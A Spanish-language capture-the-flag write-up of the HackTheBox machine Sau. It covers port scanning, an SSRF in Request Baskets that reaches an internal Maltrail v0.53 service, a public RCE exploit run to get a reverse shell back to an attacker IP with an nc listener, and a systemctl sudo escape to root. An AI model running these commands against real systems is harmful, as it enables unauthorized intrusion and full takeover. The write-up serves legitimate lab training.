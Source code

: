 ```yaml
---
layout: post
title: HTB Sau
date: '2023-11-07 07:48:01 -0500'
categories: [HTB, Easy]
tags: [Web, CVE, Linux, RCE, SSRF, Sudoers, GTFObins, Nmap, PrivEsc]
image:
  path: /sau/preview.jpeg
  alt: Sau
---
```


## Resumen

![logo](/sau/logo.png){: .right w="200" h="200"}


**Sau** es una máquina en la que se debe hacer uso del software **Request-Basket**, del cual se debe abusar para generar un **SSRF**. Gracias a esto, se puede observar que de manera interna, la máquina está utilizando una versión vulnerable de **Maltrail**, a través de la cual se pueden ejecutar comandos. Después de ganar acceso, solo es necesario revisar los privilegios a nivel de **sudoers** del usuario para descubrir algo interesante. Es una máquina corta pero interesante, ideal para practicar la explotación de la vulnerabilidad **SSRF** y la enumeración de versiones.

## Reconocimiento 

Para empezar, se realiza un **ping** para determinar con qué sistema operativo cuenta la máquina.


```bash
❯ ping -c 1 10.10.11.224
PING 10.10.11.224 (10.10.11.224) 56(84) bytes of data.
64 bytes from 10.10.11.224: icmp_seq=1 ttl=63 time=114 ms

--- 10.10.11.224 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 114.204/114.204/114.204/0.000 ms
```
{: .nolineno}
Por eso se puede asumir que es Linux.


## Escaneo de puertos

Ahora, el proceso a seguir es realizar un escaneo para determinar qué puertos están ejecutando un servicio.



```bash
❯ sudo nmap -p- --min-rate 3000 10.10.11.224 -oG openPorts -Pn -sS

Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-07 19:04 -05
Nmap scan report for 10.10.11.224 (10.10.11.224)

PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
```

Con esta información, es posible llevar a cabo un escaneo más detallado para identificar las versiones de cada servicio.

```bash
❯ sudo nmap -p22,55555,80,8338 -sVC --min-rate 3000 10.10.11.224 -Pn -sS -oN versions

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sun, 08 Oct 2023 00:06:18 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sun, 08 Oct 2023 00:05:50 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sun, 08 Oct 2023 00:05:51 GMT
|_    Content-Length: 0
```
{: .nolineno}


## Enumeración


Se puede comprobar qué se está ejecutando en el puerto ***55555*** desde el navegador.

![basket](/sau/basket.png)

En esta, se puede observar la versión que está en ejecución y una opción que aparentemente permite crear una URL con la que se podría intentar llevar a cabo una acción.

>Request Baskets is a web service to collect arbitrary HTTP requests and inspect them via RESTful API or simple web UI.
{: .prompt-info}

Al buscar en internet acerca de la versión que podría ser vulnerable a una vulnerabilidad de solicitud de servidor a servidor (SSRF), se podría intentar acceder a recursos dentro de la máquina, como los dos puertos que fueron listados previamente pero estaban filtrados.

![vuln](/sau/vuln.png)



## Explotación

Para esto, se puede intentar encaminar la solicitud web hacia la dirección local para confirmar que se está llevando a cabo de la manera deseada.

![ssrflocal](/sau/ssrflocal.png)

Cuando se pone a la escucha con Python en ese puerto, se puede observar que se recibe la solicitud y se accede a la URL relacionada con la cesta, en este caso, ***http://10.10.11.224:55555/Gansito***.

```bash
❯ python3 -m http.server 8081

Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.11.224 - - [07/Oct/2023 19:41:47] "GET / HTTP/1.1" 200 -
```

{: .nolineno}

Ahora, es importante tener en cuenta que la máquina tenía un servicio que estaba siendo filtrado en el puerto 80, por lo que teóricamente podría ser accesible mediante el SSRF.

![ssrf80](/sau/ssrf80.png)

Y al revisar dentro de la URL, se puede observar lo siguiente.

![mailtrail](/sau/mailtrai.png)

>MalTrail es una herramienta opensource, hecha en Python, destinada a analizar el tráfico de red con el fin de detectar y registrar posibles amenazas.
{: .prompt-info}

Al buscar información sobre MalTrail v0.53, se encuentra lo siguiente.

![github](/sau/github.png)


Al identificar que es vulnerable a una ejecución remota de comandos (RCE), se puede utilizar el siguiente [Github](https://github.com/spookier/Maltrail-v0.53-Exploit)

```bash
nc -lvp 4444
```
{: .nolineno}
```bash
python3 exploit.py [listening_IP] [listening_PORT] [target_URL]
```
{: .nolineno}
```bash
❯ python3 exploit.py 10.10.15.135 4444 http://10.10.11.224:55555/Gansito/login
```
{: .nolineno}
Y de esta manera, se puede obtener una shell reversa.

```bash
puma@sau:/opt/maltrail$ whoami
puma
puma@sau:/opt/maltrail$ hostname -I
10.10.11.224 dead:beef::250:56ff:feb9:23a4 
puma@sau:/opt/maltrail$ hostname 
sau
puma@sau:/opt/maltrail$ 
```
{: .nolineno}
## Escalada de Privilegios

Al revisar los privilegios a nivel de sudoers de la máquina, se puede observar que el usuario actual tiene la capacidad de ejecutar **systemctl**.

```bash
  sudo -l

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
{: .nolineno}
Por lo que se puede ejecutar el comando:

```bash
sudo  /usr/bin/systemctl status trail.service
```
{: .nolineno}
![sudoers](/sau/sudoers.png)

Puedes buscar información en  [GTFObins](https://gtfobins.github.io/gtfobins/systemctl/#sudo), una fuente útil para encontrar técnicas de escape de privilegios en sistemas Unix y Linux.

![gtfo](/sau/gtfo.png)

Por lo que se puede ejecutar el comando `!bash` y se obtiene acceso como root.

```bash
root@sau:~# whoami
root
root@sau:~# 
```
{: .nolineno}






